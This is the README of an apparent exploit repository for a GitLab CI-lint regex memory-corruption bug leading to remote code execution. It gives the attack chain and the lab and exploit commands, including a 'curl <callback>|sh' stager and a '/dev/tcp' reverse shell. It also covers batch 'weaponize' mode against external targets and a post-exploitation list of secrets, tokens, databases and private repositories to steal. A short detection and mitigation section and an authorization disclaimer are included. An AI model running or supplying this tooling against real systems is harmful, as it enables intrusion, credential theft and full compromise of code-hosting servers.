

<h1 align="center">
  
</h1>

# CVE-2026-97229 — GitLab CI lint regex OOB write → RCE

**Authorized testing only.** Use this against systems you own or are explicitly authorized to test
(bug-bounty scope, client engagement, your own lab). Unauthorized use is illegal.

[English](README.md) | [中文](README_CN.md)

An unauthenticated CI-lint request that corrupts the Onigmo matcher and redirects execution to a
`system()` gadget inside `libruby.so`:

```
GET /api/v4/projects/:id/ci/lint?content_ref=<nonce>
  → include.rules.exists.regexp compiles a crafted pattern
  → a 57k-repeat drives the matcher into a ~2 GiB expansion
  → the write lands past the allocation and redirects the VM frame
  → mov r14,rdi; call system@plt runs a 28-byte stager
  → curl -s <callback>|sh  →  uid=998(git)
```

The final request is unauthenticated, but **planting the malicious CI config requires write access to a
public project** (or an instance that allows self-registration and public projects).

---

## At a glance

| Item | Value |
|---|---|
| Affected (tested) | 19.2.0–19.2.7, 19.3.0–19.3.3, 19.4.0–19.4.1 |
| Not exploitable | 19.2.8, 19.3.4 (outlier, see below), 19.3.5, 19.4.2; 19.2.3 has no CE image |
| Trigger | unauthenticated `GET /api/v4/projects/:id/ci/lint` |
| Prerequisites | reachability + write to a public project (token, compromised account, or open sign-up) |
| Impact | command execution as `git` (uid 998) inside the GitLab container |
| PoC constraints | x86_64 builds; layout is per-`libruby.so` build, not per version string |
| Advisory boundary | 19.2.x < 19.2.8, 19.3.x < 19.3.5, 19.4.x < 19.4.2 |

> 19.3.4 is listed as affected by the advisory but its bundled `libruby.so` never enters the vulnerable
> expansion path — we could not weaponize it (`repro/evidence/2026-10-18-full-matrix/`).

---

## Quick start (lab)

```bash
./lab/run.sh 19.4.1                                    # local Docker; first boot 5–15 min
python3 exploit/cve97229.py --url http://127.0.0.1:8080 --container gl-19-4-1 --probe
python3 exploit/cve97229.py --url http://127.0.0.1:8080 --container gl-19-4-1
```

Expected last line:

```json
{"status":"RCE","version":"19.4.1","lint":"http(502)","project":"root/e12ab34",
 "output":"uid=998(git) gid=998(git) groups=998(git)\n..."}
```

No cloud account and no SSH: the lab is plain Docker (local daemon, `DOCKER_HOST`, or a docker context).
On Docker Desktop add `--callback-host host.docker.internal`.

---

## How it works

1. The operator creates a public project and pushes a branch containing a crafted
   `include.rules.exists.regexp` plus a 110-byte repository path.
2. The unauthenticated lint request compiles that pattern; the 57 805-repeat is written as
   `{5(?#)7805}` so the Rails-side repeat guard (`REPEAT_MAX=1000`) does not see it.
3. On vulnerable builds the matcher materialises the expansion (~2 GiB); the size arithmetic wraps and
   the write corrupts adjacent memory.
4. The crafted path supplies a `call` instruction and the offset of `system@plt`, redirecting the VM.
5. The stager is `curl -s <callback>|sh`, giving a shell as the `git` service user.

---

## Part 1 — Reproduce (lab)

### 1.1 Start a target

```bash
./lab/run.sh 19.4.1            # http://127.0.0.1:8080, container gl-19-4-1
./lab/run.sh 19.3.3 8081       # second version on another port
```

The launcher applies the memory settings the exploit needs (`sidekiq off`, one Puma worker, small
Postgres buffers, `--memory 6.5g --shm-size 256m`), waits for the UI and sets the root password.
See [`lab/README.md`](lab/README.md) / [`lab/README_CN.md`](lab/README_CN.md).

### 1.2 Probe

```bash
python3 exploit/cve97229.py --url http://127.0.0.1:8080 --container gl-19-4-1 --probe
```

| Field | Meaning |
|---|---|
| `http` | status of `GET /users/sign_in` |
| `version` | GitLab version read from the container (null without container access) |
| `class` | advisory classification: `affected` / `patched` / `not-listed` / `unknown` |
| `libruby_md5` | build identity of the target container's `libruby.so` |
| `layout` | `finish` / `gadget` / `step` (only when the build is known or derivable) |
| `exploitable` | whether a layout is available; `class=affected` does **not** imply this |
| `layout_source` | `table`, `derived`, or `no-overflow-in-build` |

`class: "unknown"` simply means no container/version information was available — for a URL-only target
the tool cannot classify or derive a layout. See “External targets” below.

### 1.3 Exploit

```bash
python3 exploit/cve97229.py --url http://127.0.0.1:8080 --container gl-19-4-1 \
  --command 'id; hostname; uname -a'
```

Success criterion: `lint` is `dropped(HTTPError)` or `http(502)` and `output` starts with
`uid=998(git)`. A `200` with `valid:true` means the build is not vulnerable.

### 1.4 Version matrix

| Line | Exploitable | Patched / not exploitable |
|---|---|---|
| 19.2.x | 19.2.0, 19.2.1, 19.2.2, 19.2.4–19.2.7 | 19.2.8; 19.2.3 has no CE image |
| 19.3.x | 19.3.0–19.3.3 | 19.3.4 (matcher never expands), 19.3.5 |
| 19.4.x | 19.4.0, 19.4.1 | 19.4.2 |

Per-build evidence: [`repro/evidence/2026-10-18-full-matrix/`](repro/evidence/2026-10-18-full-matrix/REPORT.md)
([中文](repro/evidence/2026-10-18-full-matrix/REPORT_CN.md)).

---

## Part 2 — Weaponize (authorized targets)

### 2.1 Target formats

```text
# plain URL list (.txt)
https://gitlab-a.example
http://gitlab-b.example:8080

# structured (.txt or .csv): name,url,container[,layout]
gl-1941,http://127.0.0.1:8080,gl-19-4-1

# CSV with header
name,url,container,layout
gl-1941,http://127.0.0.1:8080,gl-19-4-1,
```

`container` is required for the current exploit path (libruby/layout + `rails runner`); `layout` is an
optional override for builds the tool cannot read.

### 2.2 Batch pipeline

```bash
python3 exploit/cve97229.py --targets targets.txt --json-out run.json
```

For each target, in order: **probe** → **exploit** → on RCE **post-exploitation**
(`exploit/post/collect.sh`; override with `--post-command-file`, disable with `--no-post`).
`--probe-only` stops after fingerprinting. Exit code 0 if any target gave RCE.

### 2.3 Layout resolution

The payload needs three per-build constants (`finish`, `system@plt` gadget, UTF-8 step). Resolution order:

1. explicit `layout` (`0x… 0x… 12345`);
2. verified md5 table (10 versions covered);
3. on-the-fly derivation from the container's `libruby.so` via `exploit/layout.py`.

All known vulnerable builds use only **two** layouts: `0x486DA9/0x31EE29/1249885` and
`0x4885A9/0x31E809/1256138`.

### 2.4 External targets (no Docker)

`--mode external` needs only HTTP and a PAT (`api` scope): it creates a public project over the API,
pushes with `oauth2:<token>`, fires the unauthenticated lint, and removes the project afterwards.

```bash
python3 exploit/cve97229.py --mode external --targets scope.csv \
  --token glpat-... --scope scope.txt --authorized \
  --callback-host 203.0.113.10 --callback-port 80
```

- **layout**: authenticated `GET /api/v4/version` → version/md5 table; unknown version → both candidate
  layouts (`--force-unknown-version` skips the version check);
- **credential**: PAT with `api` scope that can create a public project; without it the tool reports
  `no-write-path` and sends nothing;
- **callback**: reachable from the target and **at most 16 bytes** (`cb.example:80`); longer addresses are
  rejected before any request;
- **safety**: `--scope` and `--authorized` are mandatory for exploitation; `--dry-run` only fingerprints;
- **cleanup**: the project is scheduled and then permanently removed (verify with `GET /api/v4/projects/:id`);
- **Windows**: the crafted path never touches disk — it is staged through the git index.

---

## Part 3 — Post-exploitation

The exploit lands as **`git` (uid 998) inside the container** — enough for the full GitLab compromise.
Playbook: [`exploit/post/README.md`](exploit/post/README.md) / [中文](exploit/post/README_CN.md).

```bash
# one-shot triage: identity, secrets, DB, repos, sudo, docker.sock
python3 exploit/cve97229.py --url ... --container ... --command-file exploit/post/collect.sh
```

| Target | Value |
|---|---|
| `/etc/gitlab/gitlab-secrets.json` | `db_key_base`, `otp_key_base`, runner/JWT keys; decrypts CI variables and tokens |
| `database.yml` + `gitlab-rails runner` | direct DB, PATs, admin users, CI variables |
| `/var/opt/gitlab/git-data/repositories` | every repository, including private ones |
| `Ci::Runner.pluck(:token)` | register a rogue runner |
| `gitlab.rb` | SMTP/LDAP, object storage, registry keys |

Interactive shell: `--command 'bash -i >& /dev/tcp/<host>/4444 0>&1'` with a listener.

---

## Detection & mitigation

Upgrade to **19.2.8+, 19.3.5+, 19.4.2+**.

Triple signal:

1. workhorse: `badgateway: failed to receive response: EOF` on `GET /api/v4/projects/*/ci/lint`;
2. Puma: worker restart and `regexp_matcher.rb:58: [BUG] Segmentation fault`;
3. Git history: `( ?# )` split quantifiers, repeated `[[:word:]]`, or a 110-byte UTF-8 path with
   `\U00010400`.

---

## Repository layout

```
lab/                 local Docker lab (run.sh, stop.sh)
exploit/cve97229.py  probe / exploit / batch (Docker + HTTP)
exploit/layout.py    libruby anchor/gadget/step derivation
exploit/post/        post-exploitation playbook + collectors
targets.example.txt  target formats
docs/                analysis notes (EN/CN)
repro/               per-version evidence (EN/CN)
```

## Scope & credits

Original PoC: [jburgess-r7/CVE-2026-97229-PoC](https://github.com/jburgess-r7/CVE-2026-97229-PoC).
Analysis: [Rapid7](https://www.rapid7.com/blog/post/ra-gitlab-ci-cd-regex-integer-overflow-technical-analysis-cve-2026-97229/).

All experiments were performed on the operator's own containers or authorized targets. Unauthorized
exploitation of systems you do not own is illegal.
